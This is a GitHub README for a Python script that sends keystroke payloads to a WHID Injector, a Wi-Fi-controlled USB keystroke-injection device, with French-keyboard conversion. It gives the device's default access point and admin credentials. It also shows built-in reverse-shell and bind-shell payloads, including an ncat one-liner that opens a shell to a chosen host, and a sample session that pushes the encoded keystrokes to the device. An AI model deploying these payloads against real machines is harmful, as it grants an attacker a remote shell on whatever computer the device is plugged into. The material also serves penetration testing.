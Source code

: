 # WHID Injector
**Disclaimer: Little project to interact with the WHID, mostly because I didn't wanted to modify the firmware to support my keyboard, feel free to improve it ;)**

What is it ? It's a simple script to send commands (french keyboard) from your terminal to the WHID Injector. It will automatically convert the "azerty" to "qwerty" format. Furthermore it has builtins payload such as reverse-shell and bind-shell.

Where to buy a WHID Injector ? I got mine from [Aliexpress](https://www.aliexpress.com/item/Cactus-Micro-compatible-board-plus-WIFI-chip-esp8266-for-atmega32u4/32318391529.html)

## How to start
Connect to the Access Point with the SSID "**Exploit**" with a password of "**DotAgency**".   
Open a web browser pointed to "**http://192.168.1.1**"    
The default administration username is "**admin**" and password "**hacktheplanet**".       
Remember to upgrade the firmware you will find the version 2.7 in this repository    
More info on the official Github : https://github.com/whid-injector/WHID

## How to use the script
```
python3 WHIDInjector.py -v --host 127.0.0.1 --port 4242 --payload payloads/windows.txt -a -h                                                                          127 ↵
usage: WHIDInjector.py [-h] [-v] [--host [HOST]] [--port [PORT]]
                       [--user [USER]] [--pass [PASS]] [--panel [PANEL]]
                       [--payload [PAYLOAD]]

optional arguments:
  -h, --help           show this help message and exit
  -v                   Verbosity of the output
  --host [HOST]        Host reverse-shell
  --port [PORT]        Port reverse-shell
  --user [USER]        Wifi Panel username
  --pass [PASS]        Wifi Panel password
  --panel [PANEL]      Wifi Panel password
  --payload [PAYLOAD]  Payload template
```

Targeting a Windows OS
```
python3 WHIDInjector.py -v --host 127.0.0.1 --port 4242 --payload payloads/windows.txt
```

Send a simple reverse-shell payload
```
$ python3 WHIDInjector.py -v --host 127.0.0.1 --port 4444                                                                                                                 1 ↵

     -------------------------------------------------------------
      WHID injector - You need to be connected to the Exploit AP
     -------------------------------------------------------------
                   __   °
                 <(o )___
                  ( ._> /
                   `---'                      @pentest_swissky

Enter a payload, eg: bash -c 'nohup ncat 127.0.0.1 4242 -e $SHELL &'
-------------------------------------------------------------------
>>> reverse
Payload:
Rem:Default Payload
Press:130+195
CustomDelay:1000
Print:bqsh 6c 4nohup ncqt !@&<)<)<! $$$$ 6e ]SHELL 14
CustomDelay:1000
Press:176

Sending payload to http://192.168.1.1/runlivepayload
```



# What's next  ?
TODO change_ssid_name    
TODO change_ssid_pass    
TODO update_firmware     
